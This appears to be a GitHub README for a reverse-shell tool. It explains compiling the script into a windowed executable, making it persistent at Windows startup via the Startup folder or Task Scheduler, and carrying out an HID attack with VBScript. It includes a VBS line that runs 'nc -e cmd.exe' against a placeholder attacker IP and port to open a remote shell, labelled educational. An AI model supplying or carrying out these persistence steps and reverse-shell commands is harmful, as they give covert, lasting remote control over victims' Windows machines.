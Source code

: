 ### ***Create exe via Pyinstaller***
   ```cmd
   pyinstaller --noconfirm --onefile --windowed --icon "<Your_App_Icon_Location.ico_format>"  "<your_py_file_location>"
   ```
   ###OR
   ```cmd
   python -m PyInstaller --noconfirm --onefile --windowed --icon "<Your_App_Icon_Location.ico_format>"  "<your_py_file_location>"
   ```

### **Running the Script on Startup (Windows)**

To ensure that the reverse shell starts automatically when your Windows machine starts, you can place the script in the **Windows Startup folder** or use Task Scheduler. 

#### **Option 1: Add to Windows Startup Folder**

1. Open the **Startup folder** by pressing `Win + R`, typing `shell:startup`, and pressing Enter.
2. Create a shortcut to the Python script in this folder. Right-click the folder and choose **New** → **Shortcut**. Then, browse to your script (`reverse_shell.py`) and add it to the Startup folder.

Now, every time Windows starts, it will automatically run the script.

#### **Option 2: Use Task Scheduler**

1. Open **Task Scheduler** (`Win + R`, type `taskschd.msc`, and press Enter).
2. In the right pane, click **Create Task**.
3. In the **General** tab, give your task a name like `Reverse Shell`.
4. In the **Triggers** tab, click **New** and set the task to trigger **At startup**.
5. In the **Actions** tab, click **New**, and in the **Program/script** field, enter the path to Python (e.g., `C:\Python39\python.exe`).
6. In the **Add arguments (optional)** field, enter the full path to your `reverse_shell.py` script.
7. Click **OK** to create the task.

### ***Running HID Attack***

A **VBS (VBScript)** script is a file written in **Visual Basic Scripting Edition**, a lightweight programming language developed by Microsoft. It is used primarily for automation tasks, administrative scripting, and system management. VBS scripts can be executed directly in Windows using the Windows Script Host (WSH) without requiring additional software.


### **Basic Structure of a VBS Script**
A VBS script consists of commands and logic written in VBScript syntax. Here's a simple example:

#### Example: Displaying a Message Box
```vbscript
MsgBox "Hello, this is a VBScript!", vbInformation, "VBScript Example"
```
- **What it does**: Displays a pop-up message box with the text, "Hello, this is a VBScript!"

---

### **How to Run a VBS Script**
1. Save the script with a `.vbs` extension (e.g., `example.vbs`).
2. Double-click the file to execute it. The Windows Script Host (WSH) processes the script.
3. Alternatively, run it from the command prompt:
   ```cmd
   cscript example.vbs
   ```

---

### **Practical Examples**
#### **1. Open a Website**
```vbscript
Set objShell = CreateObject("WScript.Shell")
objShell.Run "https://www.example.com"
```

#### **2. Automate File Operations**
```vbscript
Set fso = CreateObject("Scripting.FileSystemObject")
fso.CopyFile "C:\source\file.txt", "C:\destination\file.txt"
```

#### **3. Create a Startup Script**
```vbscript
Set objShell = CreateObject("WScript.Shell")
startupFolder = objShell.SpecialFolders("Startup")
Set link = objShell.CreateShortcut(startupFolder & "\example.lnk")
link.TargetPath = "C:\path\to\your\program.exe"
link.Save
```

#### **4. Run a Reverse Shell (for Educational Purposes Only)**
```vbscript
Set objShell = CreateObject("WScript.Shell")
objShell.Run "cmd.exe /k nc -e cmd.exe ATTACKER_IP ATTACKER_PORT"
```


You can create a `.vbs` (VBScript) file via the `echo` command using both single-line and multi-line approaches. Here's how:

---
### ***Create VBS or other file and write file via Shell***



### **Method 1: Single-Line Approach**
This is useful for small scripts that can fit in a single command.

#### Example: Create a `hello.vbs` Script
```cmd
echo MsgBox "Hello from VBScript!" > hello.vbs
```

- **Explanation**:
  - `echo` writes the text to a new file named `hello.vbs`.
  - The content of the file is `MsgBox "Hello from VBScript!"`.
  - To execute: 
    ```cmd
    cscript hello.vbs
    ```
    or just double-click `hello.vbs`.

---

### **Method 2: Multi-Line Approach**
For larger scripts, you need to use a `>>` operator to append multiple lines to the file.

#### Example: Create a More Complex VBScript
```cmd
echo Set objShell = CreateObject("WScript.Shell") > script.vbs
echo objShell.Run "notepad.exe" >> script.vbs
echo MsgBox "Notepad launched!", vbInformation, "VBScript Example" >> script.vbs
```

- **Explanation**:
  - The `>` operator creates the file and writes the first line.
  - The `>>` operator appends subsequent lines to the file.
  - This script:
    1. Creates a shell object.
    2. Launches `notepad.exe`.
    3. Displays a message box saying "Notepad launched!".

#### Execution:
To run the `script.vbs`:
```cmd
cscript script.vbs
```
or double-click `script.vbs`.
